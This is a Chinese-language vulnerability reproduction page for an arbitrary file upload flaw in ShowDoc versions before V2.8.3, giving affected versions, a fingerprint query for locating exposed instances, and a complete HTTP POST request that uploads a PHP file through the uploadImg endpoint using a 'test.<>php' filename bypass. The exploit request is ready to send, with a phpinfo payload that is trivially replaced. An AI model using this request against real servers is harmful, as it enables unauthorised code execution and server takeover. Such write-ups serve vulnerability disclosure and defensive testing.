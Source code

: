 # ShowDoc PageController.class.php任意文件上传漏洞

## 漏洞描述

ShowDoc 存在任意文件上传漏洞，攻击者通过构造特殊的数据包可以上传恶意文件控制服务器

## 漏洞影响

  <a-checkbox checked>ShowDoc < V2.8.3</a-checkbox></br>

## 网络测绘

  <a-checkbox checked>app="ShowDoc"</a-checkbox></br>

## 漏洞复现

网站首页如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125074.png)



构造如下数据包上传php文件

```plain
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Content-Length: 239
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Accept-Encoding: gzip

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------921378126371623762173617--
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125267.png)



访问回显的路径

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125177.png)



